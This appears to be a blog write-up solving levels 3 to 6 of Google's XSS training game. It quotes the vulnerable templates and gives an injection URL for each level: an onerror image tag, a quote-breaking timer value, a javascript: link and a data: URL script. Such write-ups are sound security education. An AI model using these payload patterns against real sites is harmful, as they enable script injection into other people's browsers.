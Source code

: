 ```yaml
---
title: Google_Game
author: ch3n9w
date: 2019-06-12 19:41:56
typora-root-url: ../
categories:
  - CTF
---
```


# Google Xss game

<!--more-->

### Level 3

![image-20211114141306312](image-20211114141306312.png)

This website provides some API (after the arch pointer).

solution:

```https://xss-game.appspot.com/level3/frame#<img src='foo' onerror=alert();>```

### level 4

![image-20211114141313076](image-20211114141313076.png)



```javascript
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
 
    <script>
      function startTimer(seconds) {
        seconds = parseInt(seconds) || 3;
        setTimeout(function() { 
          window.confirm("Time is up!");
          window.history.back();
        }, seconds * 1000);
      }
    </script>
  </head>
  <body id="level4">
    <img src="/static/logos/level4.png" />
    <br>
    <img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
    <br>
    <div id="message">Your timer will execute in {{ timer }} seconds.</div>
  </body>
</html>
```

solution:

```
https://xss-game.appspot.com/level4/frame?timer=');alert('
```



### level 5

![image-20211114141321457](image-20211114141321457.png)



```html
<!--signup.html-->
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
  </head>
 
  <body id="level5">
    <img src="/static/logos/level5.png" /><br><br>
    <!-- We're ignoring the email, but the poor user will never know! -->
    Enter email: <input id="reader-email" name="email" value="">
 
    <br><br>
    <a href="{{ next }}">Next >></a>
  </body>
</html>
```

solution: 

```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('xss')
```

and click the ``Next`` button.

### level 6

![image-20211114141329514](image-20211114141329514.png)

This website allow user to execute alternative js script

solution:

```
https://xss-game.appspot.com/level6/frame#data:text/plain,alert('xss')
```

